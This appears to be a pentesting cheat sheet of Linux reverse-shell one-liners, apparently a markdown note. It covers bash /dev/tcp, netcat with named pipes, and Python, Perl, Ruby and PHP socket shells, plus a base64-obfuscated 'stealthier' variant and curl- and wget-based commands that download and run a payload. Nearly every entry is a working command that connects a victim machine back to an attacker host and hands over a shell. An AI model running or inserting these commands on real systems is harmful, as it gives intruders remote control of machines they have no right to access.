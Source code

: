 ## Linux
### Bash | sh
- curl
```
curl https://reverse-shell.sh/1.1.1.1:3000 | bash
```
- TCP
```
bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1
```
- UDP
```
bash -i >& /dev/udp/127.0.0.1/4242 0>&1
```
- Other
```
0<&196;exec 196<>/dev/tcp/<ATTACKER_IP>/<PORT>; sh <&196 >&196 2>&196
```
```
exec 5<>/dev/tcp/<ATTACKER_IP>/<PORT>; while read line 0<&5; do $line 2>&5 >&5; done
```
- Short and bypass
```
(sh)0>/dev/tcp/10.10.10.10/9091
# After getting the shell to get the output to execute
exec >&0
```
- Symbol safe shell
```
bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1'
```
- Stealthier Method
```
echo "bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1'" | base64
```
```
echo BASE_64_STRING | base64 -d | bash 2>/dev/null
```
- Create in file and execute
```
echo -e '#!/bin/bash\nbash -i >& /dev/tcp/1<ATTACKER_IP>/<PORT> 0>&1' > /tmp/sh.sh; bash /tmp/sh.sh
```
```
wget http://<ATTACKER_IP>/<SHELL> -P /tmp; chmod +x /tmp/<SHELL>; /tmp/<SHELL>
```
### Forward Shell
- In cases where you have an RCE iuna web app in a linux machine but due to Iptables rules and other filtering you cannot get a reverse shell
	- This shell allows you to maintain a PTY shell through that RCE using pipes inside the victim system
	- https://github.com/IppSec/forward-shell
- Netcat
```
nc -e /bin/sh <ATTACKER_IP> <PORT>
```
```
# Blind
nc <ATTACKER_IP> <PORT> | /bin/sh
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> <PORT> >/tmp/f
```
```
nc <ATTACKER_IP> <PORT1>| /bin/bash | nc <ATTACKER_IP> <PORT2>
```
```
rm -f /tmp/bkpipe;mknod /tmp/bkpipe p;/bin/sh 0</tmp/bkpipe | nc <ATTACKER_IP> <PORT> 1>/tmp/bkpipe
```
- Python
```
#Linux
export RHOST="127.0.0.1";export RPORT=12345;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
```
#IPv6
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");' 
```
- Perl
```
perl -e 'use Socket;$i="<ATTACKER-IP>";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
```
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"[IPADDR]:[PORT]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
- Ruby
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[IPADDR]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
- PHP
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```
<?php $sock=fsockopen("10.0.0.1",1234);$proc=proc_open("/bin/sh -i",array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>
```
```
<?php exec("/bin/bash -c 'bash -i >/dev/tcp/10.10.14.8/4444 0>&1'"); ?>
```
